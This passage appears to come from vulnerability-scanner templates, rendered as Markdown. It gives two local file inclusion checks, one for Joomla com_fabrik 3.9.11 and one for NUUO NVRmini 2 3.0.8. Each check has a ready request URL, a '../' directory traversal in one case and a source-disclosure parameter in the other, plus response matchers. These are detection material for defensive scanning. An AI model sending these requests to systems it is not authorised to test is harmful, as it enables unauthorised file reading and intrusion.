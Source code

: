 - Joomla! com_fabrik 3.9.11 is vulnerable to local file inclusion.
- severity - high
- tags - joomla,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_fabrik&task=plugin.pluginAjax&plugin=image&g=element&method=onAjax_files&folder=../../../../../../../../../../../../../../../tmp/

### Matchers

**Type - word**

- words
  1. "value":
  2. "disable":false
  3. text
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# NUUO NVRmini 2 3.0.8 - Local File Inclusion

## Description

- NUUO NVRmini 2 3.0.8 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,edb,nuuo

## Requests

- Method - GET

### URL

- {{BaseURL}}/css_parser.php?css=css_parser.php

### Matchers

**Type - word**

- part - body
- words
  1. $\_GET['css']
